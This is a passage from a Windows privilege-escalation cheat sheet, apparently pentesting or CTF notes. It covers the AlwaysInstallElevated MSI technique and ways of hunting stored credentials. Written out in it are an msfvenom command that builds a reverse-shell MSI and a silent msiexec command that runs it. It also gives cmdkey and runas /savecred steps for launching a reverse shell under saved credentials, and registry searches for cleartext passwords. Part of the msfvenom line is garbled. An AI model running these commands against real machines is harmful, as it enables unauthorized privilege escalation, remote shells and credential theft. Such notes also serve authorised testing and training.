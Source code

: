 `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

You will need both registry vales to be set. Otherwise it will not be exploitable. This can also be enabled in the GPO. If this is set we can generate shellcode using msfvenom.

`msfvenom -p windows/x64/shell_reverse_tcp LHOSTX LPORT=X -f msi -o malicious.msi`

Once you have transferred the file run it using the following command:

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

### Passwords

Looking for config files or user-generated files containing password can be rewarding. However there are other location on Windows that could hide cleartext passwords.

**Saved credentials:**

Windows allows us the use other user's credentials. This function also gives the option to save these credentials on the system. The command below will list the saved credentials. **`cmdkey /list.`**

If you see any credentials with trying you can use them with the `runas` command with the **`/savecred`** option. `runas /savecred /user:admin reverse_shell.exe` 

**Registry keys:**

Registry keys containing password can be queried using the commands

`reg query HKLM /f password /t REG_SZ /s`

`reg query HKCU /f password /t REG_SZ /s`

**Unattend files:**

Unattend.xml files helps administrators help settings up Windows system. They need to be deleted once the setup is completed, but sometimes forgotton. If you find this kind if file, they are worth reading.
